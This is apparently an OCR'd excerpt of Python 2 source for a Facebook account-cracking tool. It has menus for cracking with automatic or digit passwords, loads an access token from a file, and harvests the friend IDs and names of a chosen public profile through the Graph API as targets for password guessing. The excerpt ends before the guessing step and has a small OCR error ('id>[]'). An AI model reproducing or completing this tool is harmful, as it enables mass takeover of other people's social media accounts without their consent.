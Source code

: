     print("")
    print("\033[92;1m  [1] CRACK WITH AUTO PASS")
    print("\033[93;1m  [2] CRACK WITH DIGIT PASS")
    print('\033[91;1m  [0] BACK')
    print("")
    menu_option()
    
def menu_option():
	select = raw_input("\033[92;1m  CHOOSE : ")
	if select =="1":
		crack1()
	elif select =="2":
		crack()
	elif select =="0":
		main()
	else:
		print("")
		print("\t\033[91;1m     SELECT VALID OPTION")
		print("")
		menu_option()

def crack1():
	global token
	os.system("clear")
	try:
		token = open("vau_token.txt","r").read()
	except IOError:
		print("")
		print("\t\033[91;1m  TOKEN NOT FOUND ")
		time.sleep(1)
		fb_token()
	os.system("clear")
	logo()
	print("")
	print("\t\033[93;1m CRACK WITH AUTO PASS")
	print("")
	print("\033[94;1m  [1] CRACK PUBLIC ID")
	print("\033[93;1m  [2] CRACK FOLLOWERS")
	print("\033[92;1m  [3] CRACK FILE")
	print("")
	crack_select1()
	
def crack_select1():
	select = raw_input("\033[92;1m  CHOOSE : ")
	id>[]
	oks=[]
	cps=[]
	if select =="1":
		os.system("clear")
		logo()
		print("")
		print("\t\033[92;1m MULTI PUBLIC ID COINING ")
		print("")
		try:
			id_limit = int(raw_input("\033[93;1m  ENTER LIMIT (\033[91;1m5 MAX\033[93;1m): \033[92;1m"))
			print("")
		except:id_limit=1
		for t in range(id_limit):
			t +=1
			idt = raw_input("\033[93;1m  INPUT PUBLIC ID (\033[92;1m%s\033[93;1m) : \033[92;1m"%(t))
			try:
				for i in requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token).json()["data"]:
					uid = i["id"].encode('utf-8')
					na = i["name"].encode('utf-8')